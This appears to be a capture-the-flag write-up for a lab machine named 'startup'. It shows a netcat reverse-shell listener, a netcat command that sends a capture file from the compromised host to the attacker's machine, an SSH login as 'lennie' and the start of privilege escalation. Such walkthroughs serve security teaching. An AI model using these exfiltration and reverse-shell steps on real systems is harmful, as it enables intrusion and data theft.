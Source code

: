 ## 2. Foothold
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337      
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.109.61] 52074
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:53:18 up 24 min,  0 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1233): Inappropriate ioctl for device
bash: no job control in this shell
www-data@startup:/$ 
```

And we are in!

I tried `cd`-ing into the user, but to no avail. The ssh keys are also in palce. What to do? Hint says to look for something sus. 

### 2.1 Exploration
We find a folder named incidents. It has a single pcapng file, suspicious.pcapng. I checked if the machine has netcat, and it does. So, let's transfer the file and go in detail.


On attacked machine:
```
www-data@startup:/incidents$ nc 10.8.150.214 1337 < suspicious.pcapng   
```

On your machine:
```
┌──(kali㉿kali)-[/tmp]
└─$ nc -lvnp 1337 > sus.pcapng  
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.109.61] 52080
```

Looking around in the file, we have the passowrd hidden somewhere. Try finding it XD

### 2.2 SSH
```
┌──(kali㉿kali)-[~]
└─$ ssh lennie@10.10.109.61
...
$ bash -i
lennie@startup:~$ 
```

And we are in (stably) :D

## 3. PrivEsc
I tried `lennie@startup:/$ file / -type f -perm -u=s 2>/dev/null`, which have empty results.
